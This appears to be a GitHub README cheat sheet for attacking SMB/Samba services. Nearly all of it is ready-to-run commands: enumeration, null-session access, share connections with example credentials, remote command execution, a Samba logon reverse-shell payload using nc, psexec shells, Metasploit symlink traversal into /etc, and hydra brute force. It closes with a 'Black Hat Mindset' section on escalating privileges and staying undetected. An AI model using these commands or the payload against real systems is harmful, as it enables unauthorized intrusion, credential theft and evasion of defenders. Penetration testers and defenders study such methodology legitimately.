 # Basic Methodology - Ports 137, 139, 445 (SMB-Samba)

This README explores exploiting SMB (Server Message Block) and Samba services, focusing on version enumeration, share enumeration, command execution, reverse shells, and vulnerability exploitation.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [SMB/Samba Version Enumeration](#smbsamba-version-enumeration)
- [Enum4linux Enumeration](#enum4linux-enumeration)
- [NetBIOS Scan](#netbios-scan)
- [RPCclient Null Session](#rpcclient-null-session)
- [Smbclient Share Enumeration](#smbclient-share-enumeration)
- [Smbclient Share Connection](#smbclient-share-connection)
- [SMBMap Enumeration and Command Execution](#smbmap-enumeration-and-command-execution)
- [SMB Reverse Shell](#smb-reverse-shell)
- [Psexec Exploitation](#psexec-exploitation)
- [Nmap NSE Scripts](#nmap-nse-scripts)
- [Symlink Directory Traversal](#symlink-directory-traversal)
- [Brute-Force Attacks](#brute-force-attacks)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

SMB/Samba on ports 137, 139, and 445 facilitates file and printer sharing in Windows and Linux environments but is often a target for attackers due to misconfigurations, weak credentials, or unpatched vulnerabilities. This guide covers enumerating SMB services, accessing shares, executing commands, and exploiting vulnerabilities like symlink traversal.

## Setup and Prerequisites

- **Environment**: Linux host with network access to the target SMB/Samba server.
- **Tools**: Install `smbclient`, `rpcclient`, `smbmap`, `nbtscan`, `enum4linux`, `nmap`, `hydra`, `metasploit-framework`, and Impacket (`psexec.py`).
- **Wordlists**: Prepare a password file (e.g., `password-file.txt`) or use `/usr/share/wordlists/rockyou.txt`.
- **IP Address**: Identify the target IP address (e.g., `<IP address>`).
- **Credentials**: Have guessed or compromised credentials (e.g., `administrator:asdf1234`, `ariley:P@$$w0rd1234!`).

## SMB/Samba Version Enumeration

Identify the SMB/Samba version to find potential vulnerabilities.

```bash
sudo ./smbver.sh <IP address> <port>
```

*Note: Ensure smbver.sh is in your working directory and executable (`chmod +x smbver.sh`).*

## Enum4linux Enumeration

Perform comprehensive SMB enumeration.

```bash
enum4linux -a <IP address>
```

Example Output:
```
Users: administrator, guest
Shares: IPC$, ADMIN$, C$
```

## NetBIOS Scan

Enumerate NetBIOS names and details.

```bash
nbtscan <IP address>
```

Example Output:
```
IP address       NetBIOS Name     Server    User
192.168.1.100    WIN-SERVER       <server>  ADMINISTRATOR
```

## RPCclient Null Session

Connect to the SMB server without credentials.

```bash
rpcclient -U "" <IP address>
```

Example Commands:
```bash
rpcclient> enumdomusers    # Lists domain users
rpcclient> enumdomgroups   # Lists domain groups
```

## Smbclient Share Enumeration

List available shares on the SMB server.

```bash
smbclient -L //<IP address>
```

Example Output:
```
Sharename       Type      Comment
---------       ----      -------
IPC$            IPC       Remote IPC
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
```

## Smbclient Share Connection

Connect to a specific share.

```bash
smbclient //<IP address>/<share>
```

With Credentials:
```bash
smbclient -U administrator%asdf1234 //<IP address>/C$
smbmap -H 192.168.12.123 -u administrator -p asdf1234
```

## SMBMap Enumeration and Command Execution

Enumerate shares and execute commands.

```bash
smbmap -H <IP address>
smbmap -u ariley -p 'P@$$w0rd1234!' -d ABC -x 'net group "Domain Admins" /domain' -H 192.168.2.50
```

## SMB Reverse Shell

Establish a reverse shell via SMB.

```bash
smb: \> logon "/=nc -e /bin/sh"
```

Setup:
```bash
# On attacker:
nc -lvnp <port>

# On target: Run the logon command in an smbclient session
```

## Psexec Exploitation

Gain a shell using psexec.

```bash
python psexec.py pentest:'P3nT3st!'@<IP address>
```

## Nmap NSE Scripts

Scan for SMB/Samba vulnerabilities.

```bash
ls -la /usr/share/nmap/scripts | grep "smb"     # Lists SMB-related NSE scripts
ls -la /usr/share/nmap/scripts | grep "samba"   # Lists Samba-related scripts
```

Example usage:
```bash
nmap -p 445 --script smb-vuln* <IP address>      # Scans for SMB vulnerabilities like MS17-010
nmap -p 445 --script smb-enum-shares <IP address> # Enumerates shares
```

## Symlink Directory Traversal

Exploit Samba symlink traversal vulnerabilities.

```bash
msf > use auxiliary/admin/smb/samba_symlink_traversal
```

Steps:
```bash
set RHOST <IP address>
set SHARE <share_name>
set SMB_DIR /etc
exploit    # Attempts to access /etc via the share
```

## Brute-Force Attacks

Guess SMB credentials.

```bash
hydra -l root -P password-file.txt <IP address> smb
```

Alternative:
```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt <IP address> smb -t 4
```

## Black Hat Mindset

- **Enumerate Thoroughly**: Use enum4linux and smbmap to map shares, users, and permissions.
- **Exploit Misconfigs**: Target null sessions or weak credentials for quick access to shares.
- **Execute Commands**: Leverage smbmap or psexec to run commands and escalate privileges.
- **Stay Undetected**: Use minimal brute-force attempts and proxy connections to avoid detection.

## Resources

- SMB Protocol
- Enum4linux GitHub
- Smbmap GitHub
- Impacket Guide
- Nmap NSE Documentation

